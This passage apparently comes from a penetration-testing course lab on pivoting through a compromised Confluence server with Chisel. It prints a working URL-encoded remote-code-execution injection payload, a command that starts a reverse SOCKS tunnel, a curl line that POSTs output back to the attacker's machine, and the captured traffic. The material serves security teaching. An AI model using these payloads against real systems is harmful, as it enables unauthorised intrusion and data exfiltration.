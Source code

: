 > Listing 9 - Starting the Chisel client using the Confluence injection payload.

However, nothing happens. We don't see any traffic hit our Tcpdump session, and the Chisel server output doesn't show any activity.

This indicates there may be something wrong with the way we're running the Chisel client process on CONFLUENCE01. However, we don't have direct access to the error output when running the binary. We need to figure out a way to read the command output, which may be able to point us towards the problem. We should then be able to solve it.

To read the command output, we can construct a command which redirects stdout and stderr output to a file, and then send the contents of that file over HTTP back to our Kali machine. We use the **&>** operator, which directs all streams to stdout, and write it to **/tmp/output**. We then run **curl** with the **\--data** flag, telling it to read the file at **/tmp/output**, and POST it back to our Kali machine on port 8080.

```
/tmp/chisel client 192.168.118.4:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://192.168.118.4:8080/
```

> Listing 10 - The error-collecting-and-sending command string.

We can then create an injection payload using this command string, and send it to the vulnerable Confluence instance.

```
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://192.168.118.4:8080/%27%29.start%28%29%22%29%7D/
kali@kali:~$
```

> Listing 11 - The error-collecting-and-sending injection payload.

On sending this new injection, we check Tcpdump output for attempted connections.

```
...
16:30:50.915895 IP (tos 0x0, ttl 61, id 47823, offset 0, flags [DF], proto TCP (6), length 410)
    192.168.50.63.50192 > 192.168.118.4.8080: Flags [P.], cksum 0x1535 (correct), seq 1:359, ack 1, win 502, options [nop,nop,TS val 391724691 ecr 3105669986], length 358: HTTP, length: 358
        POST / HTTP/1.1
        Host: 192.168.118.4:8080
        User-Agent: curl/7.68.0
        Accept: */*
        Content-Length: 204
        Content-Type: application/x-www-form-urlencoded

        /tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32' not found (required by /tmp/chisel)/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by /tmp/chisel) [|http]
        0x0000:  4500 019a bacf 4000 3d06 f729 c0a8 db3f  E.....@.=..)...?
        0x0010:  c0a8 2dd4 c410 1f90 d15e 1b1b 2b88 002d  ..-......^..+..-
...
```
